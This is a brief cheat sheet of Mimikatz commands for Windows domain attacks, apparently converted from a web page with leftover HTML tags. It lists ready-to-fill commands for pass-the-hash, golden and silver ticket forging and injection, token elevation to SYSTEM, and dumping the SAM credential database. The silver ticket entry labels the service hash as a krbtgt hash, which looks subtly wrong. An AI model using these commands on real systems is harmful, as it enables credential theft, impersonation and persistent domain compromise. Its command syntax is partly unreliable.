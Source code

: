 <span id="anchor-291"></span>MimiKatz Pass-the-Hash (PTH)

```
privilege::debug
sekurlsa::pth /user:<strong>&lt;user&gt;</strong> /domain:<strong>&lt;domain FQDN&gt;</strong> /ntlm:<strong>&lt;hash&gt;</strong> /run:<strong>&lt;cmd&gt;</strong></p></td>
```

<span id="anchor-292"></span>MimiKatz Pass-the-Ticket (PTT) - Generate
Golden Ticket

```
privilege::debug
kerberos::golden /user:<strong>&lt;user&gt;</strong> /domain:<strong>&lt;domain FQDN&gt;</strong> /sid:<strong>&lt;SID&gt;</strong> /krbtgt:<strong>&lt;hash&gt;</strong> /ticket:<strong>&lt;filename&gt;</strong></p></td>
```

<span id="anchor-293"></span>MimiKatz Pass-the-Ticket (PTT) - Inject
Golden Ticket

```
privilege::debug
kerberos::golden /user:<strong>&lt;user&gt;</strong> /domain:<strong>&lt;domain FQDN&gt;</strong> /sid:<strong>&lt;SID&gt;</strong> /krbtgt:<strong>&lt;hash&gt;</strong> /ptt</p></td>
```

<span id="anchor-294"></span>MimiKatz Pass-the-Ticket (PTT) - Generate &
Pass Silver Ticket

```
privilege::debug
kerberos::silver /user:<strong>&lt;user&gt;</strong> /domain:<strong>&lt;domain FQDN&gt;</strong> /sid:<strong>&lt;SID&gt;</strong> /krbtgt:<strong>&lt;hash&gt;</strong> /target:<strong>&lt;target FQDN&gt;</strong> /service:<strong>&lt;servicename&gt;</strong> /ptt</p></td>
```

<span id="anchor-295"></span>MimiKatz Pass-the-Ticket (PTT) - Passing a
Ticket (Current Session)

```
privilege::debug
Kerberos::ptt <strong>&lt;ticketfile&gt;</strong></p></td>
```

<span id="anchor-296"></span>MimiKatz Elivate to SYSTEM (Must be
Administrator)

```
token::elevate
```

<span id="anchor-297"></span>MimiKatz Dump SAM (Live, Requires SYSTEM)

```
lsadump::sam
```

<span id="anchor-298"></span>MimiKatz Dump SAM (From Backup)

```
lsadump::sam **&lt;systemfile&gt;** **&lt;samfile&gt;**
```

